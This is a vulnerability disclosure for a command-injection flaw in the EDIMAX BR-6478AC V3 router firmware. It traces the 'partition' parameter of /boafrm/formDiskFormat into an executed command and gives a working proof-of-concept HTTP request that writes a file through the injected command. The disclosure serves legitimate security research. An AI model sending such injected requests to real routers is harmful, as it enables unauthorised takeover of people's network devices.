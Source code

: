 # EDIMAX RCE
**description**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0045c97c function and systype in /bin/boa
## Firmware
**brand**:edimax  
**product**:AC1200 Wave 2 Dual-Band Gigabit Router  
**version**:BR-6478AC V3 1.0.15

The firmware can be downloaded in this website[1] and using FirmAE to simulate the router environment.   
The result of simulating as follows: 
![alt text](image-6.png)
using ghidra we can konw the relate action name is formDiskFormat
![alt text](image-4.png)


## analyze
Using ghidra we can konw that the post parameter "partition" will be sprintf as the second input parameter which will be executed
![alt text](image-7.png)
The details of the function as follows:

**addr**:0045ca18  
**function**: FUN_0045c97c   
**parameter**:systype,partition


# poc
burp suite change the packet as follow
```
POST /boafrm/formDiskFormat HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 82

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/diskformat.htm

Cookie: webuicookie=16041636021804289383

Upgrade-Insecure-Requests: 1



Apply+Changes=Apply+Changes&submit_url=%2Fdiskinfo.htm&systype=ext2&partition=sda1/n echo 123 > /tmp/poc.txt
```
the result of POC is as follows, you can find the /tmp/poc.txt was created after poc
![alt text](image-3.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
